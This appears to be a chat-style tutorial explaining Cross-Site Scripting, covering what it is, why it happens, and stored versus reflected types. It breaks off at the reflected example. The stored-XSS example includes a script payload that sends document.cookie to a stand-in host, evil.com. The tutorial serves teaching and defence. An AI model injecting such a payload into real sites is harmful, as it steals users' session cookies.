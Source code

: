 Absolutely Ali — let’s break down **Cross-Site Scripting (XSS)** from the ground up. This is one of the most common and dangerous vulnerabilities in web applications. You’ll learn what it is, how it works, the different types, how attackers exploit it, and how to defend against it.

---

## 🧠 What Is Cross-Site Scripting (XSS)?

**XSS** is a vulnerability that allows attackers to inject **malicious scripts** (usually JavaScript) into web pages viewed by other users.

These scripts run in the victim’s browser and can:

* Steal cookies or session tokens
* Log keystrokes
* Redirect users
* Modify page content
* Perform actions on behalf of the user

> In short: XSS lets attackers hijack the user’s browser and impersonate them on a trusted site.

---

## 🔍 Why It Happens

XSS occurs when:

* A web application **includes user input in its output** without proper sanitization or escaping.
* The browser **trusts the page** and executes the injected script as if it were legitimate.

---

## 🧪 Types of XSS

### 1️⃣ **Stored XSS (Persistent)**

* Malicious script is **saved** in the database or server.
* Every time a user loads the affected page, the script executes.

**Example:**

* Attacker posts a comment:
  ```html
  <script>fetch('https://evil.com?cookie=' + document.cookie)</script>
  ```
* Every user who views the comment triggers the script.

---

### 2️⃣ **Reflected XSS**

* Script is injected via the  **URL or request parameters** .
* The server reflects the input in the response without escaping.

**Example:**
